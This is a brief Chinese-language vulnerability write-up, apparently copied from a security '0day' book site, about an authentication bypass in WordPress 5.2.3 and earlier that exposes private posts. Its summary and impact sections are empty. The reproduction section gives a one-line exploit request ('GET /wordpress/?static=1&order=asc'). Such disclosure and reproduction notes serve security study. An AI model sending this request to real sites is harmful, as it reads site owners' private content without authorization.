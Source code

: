 # WordPress <= 5.2.3 绕过认证查看私密内容

> 原文：[http://book.iwonder.run/0day/Wordpress/1.html](http://book.iwonder.run/0day/Wordpress/1.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

本地复现 WordPress <= 5.2.3 程序，这个版本算是比较新的版本，存在绕过认证查看私密内容的漏洞

```
GET /wordpress/?static=1&order=asc 
```

![image](img/71c330f3c873fabd76901b95d75e45b5.png)

